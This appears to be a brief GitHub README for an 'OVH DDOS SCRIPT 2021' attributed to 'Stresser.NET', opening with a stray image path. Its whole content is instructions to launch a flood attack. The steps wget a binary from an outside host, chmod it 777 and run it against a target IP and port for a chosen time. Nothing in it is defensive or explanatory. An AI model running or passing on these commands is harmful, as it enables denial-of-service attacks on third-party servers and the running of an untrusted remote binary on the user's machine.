 # OVH-DDOS-2021
Stresser.NET // OVH DDOS SCRIPT 2021 


wget http://upload.vina-host.com/10yiIS/jeffovh

chmod 777 jeffovh

./jeffovh IP PORT 10 -1 (Time)
